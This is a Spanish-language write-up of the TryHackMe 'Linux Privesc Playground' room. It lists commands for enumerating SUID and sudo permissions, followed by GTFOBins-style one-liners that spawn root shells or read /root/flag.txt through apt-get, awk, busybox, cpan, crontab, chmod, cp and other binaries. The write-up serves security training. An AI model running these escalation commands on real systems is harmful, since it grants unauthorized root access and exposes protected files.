







TryHackMe - Linux Privesc Playground

Contenido
| Titulo | Linux Privesc Playground |
|---|---|
| Room | Linux Privesc Playground |
| Info | A linux privilege escalation playground, filled with badly configured superuser permissions, incorrectly set SUID bits, and more! |
| Puntos | 358 |
| Dificultad | Relativamente Facil |
| Maker | SherlockSec |
Linux Privesc Playground, contiene ficheros del tipo SUID los cuales al ejecutarlos, se obtiene permisos del usuario quien creo este fichero unicamente durante la ejecucion.
Las credenciales de la maquina:
SSH Credentials - user:password

Para poder enumerar los ficheros del tipo SUID podemos utilizar los siguientes comandos:
find / -perm -4000 2> /dev/null | xargs ls -lah
find / -perm -u=s -type f 2>/dev/null
De igual forma podemos utilizar sudo para poder ver que ficheros pueden ser ejecutados bajo el comando sudo.
sudo -l -l
Podemos ver que nos devuelve una lista de ficheros los cuales pueden ser utilizados para obtener privilegios de root.
A continuacion se listan la solucion para alguno de ellos, se puede encontrar los comandos en la pagina GTFOBINS.
/bin/apt-get*
En el caso de este fichero al consultar sobre la existencia en el directorio que nos muestra el listado no existe en esa direccion. Utilizamos cp para copiar el acrhivo y lo colocamos en la direccion /bin/.
Comando:
sudo /bin/apt-get update -o APT::Update::Pre-Invoke::= /bin/bash

/usr/bin/aria2c
Ya que podemos ejecutar este archivo con el comando sudo, podemos aprovechar las diferentes opciones que tiene el archivo. aria2c en su version 1.13.0.
Comando:
sudo /usr/bin/aria2c -i /root/flag.txt

/usr/sbin/arp
Comando:
LFILE=/root/flag.txt; sudo arp -v -f "$LFILE"

/bin/ash
Comando:
sudo /bin/ash

/usr/bin/awk
Comando:
sudo awk 'BEGIN {system("/bin/sh")}'

/usr/bin/base64
Comando:
LFILE=/root/flag.txt
sudo base64 "$LFILE" | base64 --decode

/bin/bash
Comando:
sudo bash

/bin/busybox
Comando:
sudo busybox sh

/bin/cat
Comando:
sudo /bin/cat /root/flag.txt

/bin/chmod
Comando:
LFILE=/root/flag.txt
sudo chmod 0777 $LFILE

/bin/chown
Comando:
LFILE=/root/flag.txt
sudo /bin/chown $(id -un):$(id -gn) $LFILE

/bin/cp
Comando:
FLAG=/tmp/flag.txt
TF=/root/flag.txt
sudo /bin/cp $TF $FLAG
cat $FLAG

/usr/bin/cpan
Comando:
sudo cpan
Elegimos no a las opciones hasta CPAN site, entonces ‘Autoconfiguration complete.’ y escribimos el siguiente comando:
! exec '/bin/bash'

/bin/crontab
Comando:
sudo /bin/crontab -e
Seleccionamos el editor Vim, presionamos ESC y escribimos :!sh.

/usr/bin/cut
Comando:
LFILE=/root/flag.txt
sudo cut -d "" -f1 "$LFILE"
